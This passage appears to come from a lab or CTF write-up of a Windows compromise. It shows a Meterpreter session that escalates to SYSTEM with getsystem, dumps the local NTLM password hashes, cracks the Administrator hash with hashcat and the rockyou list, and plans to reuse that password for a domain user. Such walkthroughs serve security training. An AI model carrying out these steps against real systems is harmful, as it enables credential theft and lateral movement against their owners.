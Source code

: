A simple enumeration in the user groups tells us that it is member of `BUILTIN\Administrators`. The privilege escalation now seems logic.
```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We may have pwned the administrator, but it is not the actual host. We can confirm by running ipconfig:
```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 14
============
Name         : Microsoft Hyper-V Network Adapter #2
Hardware MAC : 00:15:5d:e8:0a:01
MTU          : 1500
IPv4 Address : 172.16.22.2
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::9513:4361:23ec:64fd
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

Since we are `Administrator` lets dump the hashes:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Crack it:
```bash
$ hashcat.exe -m 1000 hashes.txt rockyou.txt

a29f7623fd11550def0192de9246f46b:Password@123
```

Previously we queried the domain to find member of "Managers" group, there was one user, `awallace` , let’s try to use this password from this users context.
